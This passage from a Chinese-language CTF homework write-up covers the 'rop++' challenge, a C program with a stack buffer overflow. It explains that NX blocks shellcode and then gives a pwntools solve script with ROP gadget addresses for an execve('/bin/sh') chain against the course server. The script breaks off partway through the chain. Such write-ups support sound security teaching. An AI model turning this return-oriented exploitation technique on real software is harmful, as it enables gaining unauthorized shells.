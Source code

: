 執行解題腳本，成功找出 flag 為 ```FLAG{banana_72b302bf297a228a75730123efef7c41}```
![](assets/2-12.png)

## [HW] rop++
題目如下
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);
    
    return 0;
}
```
題目單純讀一段夠長的內容去 overflow\
下 ```checkset``` 指令查看有哪些保護機制
![](assets/2-13.png)
可得知有啟用 NX，無法執行 shellcode，不過可透過串 ROP chain 來拿 shell\
而這題跟 pwn 第一週講師上課 demo 的 ROP 範例幾乎一樣\
只差在這題沒有給 /bin/sh 的位址，所以我們要自己給 /bin/sh 的位址\
先貼解題腳本，以方便解說
```python
# rop++/solve.py
from pwn import *

context.arch = 'amd64'
r = remote('edu-ctf.zoolab.org', 10003)

# ROPgadget --multibr --binary ./chal > out
pop_rdi_ret = 0x401e3f # cat ./out | grep "pop rdi ; ret"
pop_rsi_ret = 0x409e6e # cat ./out | grep "pop rsi ; ret"
pop_rcx_ret = 0x450ed5 # cat ./out | grep "pop rcx ; ret"
mov_ptr_rdi_rcx = 0x42cc1b # cat ./out | grep "mov qword ptr \[rdi\], rcx ; ret"
# pop_rdx_ret: cat ./out | grep "pop rdx ; ret"
pop_rdx_rbx_ret = 0x47ed0b # cat ./out | grep "pop rdx ; pop rbx ; ret"
pop_rax_ret = 0x447b27 # cat ./out | grep "pop rax ; ret"
syscall_ret = 0x414506 # cat ./out | grep "syscall ; ret"

buf = 0x4c5000 + 200

ROP = flat(
    # exec('/bin/sh', 0, 0)
    pop_rdi_ret, buf,
```